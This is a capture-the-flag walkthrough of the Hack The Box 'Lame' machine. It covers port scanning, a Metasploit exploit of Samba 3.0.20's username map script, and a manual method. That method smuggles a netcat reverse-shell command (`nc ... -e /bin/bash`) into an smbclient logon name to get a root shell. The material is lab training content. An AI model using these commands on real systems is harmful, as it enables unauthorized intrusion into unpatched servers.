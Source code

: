 ```yaml
---
title: "Walk-through of Lame from HTB"
teaser: /assets/images/2020-04-05-21-43-26.png
author_profile: false
classes: wide
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - smbclient
  - Samba
  - Metasploit
  - Linux
---
```


## Machine Information

![Lame](/assets/images/2020-04-05-21-43-26.png)

Lame is a beginner level machine, requiring only one exploit to obtain root access. Skills required are basic knowledge of Linux and enumerating ports and services. Skills learned are identifying vulnerable services and exploiting Samba.

<!--more-->

It's now retired so only available to those with VIP membership here: [HTB - 001 - Easy - Lame](https://www.hackthebox.eu/home/machines/profile/1)

Machine release date: 14th March 2017

Date I completed it: 14th July 2019

Distribution used: Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/)

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/lame# nmap -sS -sC -sV -oA lame -p- -T4 10.10.10.3

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-16 22:10 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup:WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup:WORKGROUP)
3632/tcp open  distccd     distccd v1((GNU)4.2.4(Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -2d23h00m43s, deviation: 0s, median: -2d23h00m43s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-07-13T14:11:05-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

Lots of ports open. Has port 21 open with anonymous FTP, but looking around there is nothing obvious.

### Gaining Access

Box is running vsftpd 2.3.4 so check searchsploit for vulnerability:

```text
root@kali:~/htb/lame# searchsploit vsftpd
---------------------------------------------------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption | exploits/linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(1)  | exploits/windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(2)  | exploits/windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                               | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)         | exploits/unix/remote/17491.rb
---------------------------------------------------------------------------------
```

Last one in above list for backdoor execution looks good. Start Metasploit and load exploit:

```text
root@kali:~/htb/lame# msfconsole
msf5 > search vsftpd 2.3.4
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 > show options
msf5 > set RHOST 10.10.10.3
msf5 > exploit
```

No luck, go back to list of services, now try samba on port 445:

```text
root@kali:~/htb/lame# searchsploit samba 3.0.20
---------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                            | exploits/linux/remote/7701.txt
---------------------------------------------------------------------------------
```

Remote heap overflow sounds promising, go back in to Metasploit and try it:

```text
root@kali:~/htb/lame# msfconsole
msf5 > search samba 3.0.20
msf5 > use exploit/multi/samba/usermap_script
msf5 > set RHOST 10.10.10.3
msf5 > exploit

[*] Started reverse TCP double handler on 10.10.14.14:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NKYmctrocnnm8nuo;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "NKYmctrocnnm8nuo\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.3:35080) at 2019-07-16 22:18:10 +0100
```

This works and I now have a reverse shell on to the box.

### User and Root Flags

I have a shell, but need an interactive one to make progress:

```text
msf5 > shell
[*] Trying to find binary(python) on target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
```

Now have interactive shell so get the user flag:

```text
# ls /home
ftp  makis  service  user

# ls /home/makis
user.txt

# cat /home/makis/user.txt
# cat /root/root.txt
```

## Alternative Method (without MetaSploit)

Start a Netcat session listening on my Kali machine:

```text
root@kali:~/htb/lame# nc –lvp 4444
```

Switch to another terminal and use smbclient to connect:

```text
root@kali:~/htb/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password:        <--- just press enter
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc 10.10.14.22 4444 –e /bin/bash`"
Password:                               <--- just press enter
```

Switch back to Netcat terminal and should have root shell:

```text
# id
uid=0(root) gid=0(root)
```

Can now get the flags as above now.
